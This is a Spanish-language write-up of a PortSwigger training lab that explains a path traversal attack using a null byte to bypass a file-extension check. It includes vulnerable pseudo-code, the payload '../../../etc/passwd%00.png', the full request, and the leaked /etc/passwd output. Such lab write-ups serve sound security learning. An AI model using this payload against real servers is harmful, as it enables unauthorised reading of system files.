

# Write-up - PortSwigger Lab 22 (Null Byte Bypass)

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
LAB: File path traversal, validation of file extension with null byte bypass
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# CONTEXTO

El servidor implementa una validación de extensión:

    "El archivo DEBE terminar en .png / .jpg / etc"

Ejemplo de lógica vulnerable:

    if filename.endswith(".png"):
        open(base_path + filename)

Parece correcto… pero no lo es.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# PROBLEMA REAL

Conflicto entre:

    ✔ Validación (lenguaje alto nivel)
    ❌ Ejecución (C / sistema operativo)

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# CONCEPTO CLAVE: NULL BYTE (%00)

En C:

    \0  → fin de string

Cuando aparece:

    TODO lo que viene después se ignora

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# FLUJO REAL DEL ATAQUE

Input:

    ../../../etc/passwd%00.png

FASE 1 → VALIDACIÓN

El backend ve:

    "../../../etc/passwd%00.png"

Evalúa:

    endswith(".png") → TRUE

✔ Pasa filtro

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

FASE 2 → EJECUCIÓN (C / OS)

El sistema interpreta:

    "../../../etc/passwd\0.png"

En cuanto ve \0:

    corta el string

Resultado real:

    ../../../etc/passwd

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# RESULTADO

El servidor abre:

    /etc/passwd

NO:

    /etc/passwd.png

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# PASO A PASO PRÁCTICO

## 1. Interceptamos request

GET /image?filename=75.jpg

## 2. Payload

    ../../../etc/passwd%00.png

## 3. Request final

GET /image?filename=../../../etc/passwd%00.png

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# RESPUESTA

HTTP/2 200 OK

Contenido:

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin/nologin
    ...

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# POR QUÉ FUNCIONA

| Fase | Lo que ve |
|------|----------|
| Filtro | ../../../etc/passwd%00.png |
| OS | ../../../etc/passwd |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ERROR DE SEGURIDAD

El desarrollador valida:

    string completo

Pero el sistema usa:

    string truncado

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# CONCEPTO IMPORTANTE

Esto es un:

    Injection de terminador de cadena

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# CUÁNDO FUNCIONA

✔ Sistemas antiguos  
✔ APIs que usan C internamente  
✔ Validación antes de sanitización real  

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# CUÁNDO NO FUNCIONA

❌ Sistemas modernos (Java, .NET, Python bien implementado)  
❌ Funciones seguras que manejan longitud de string  

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# FRASE CLAVE

    "El filtro valida más de lo que el sistema ejecuta"

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# IMAGEN DEL LAB

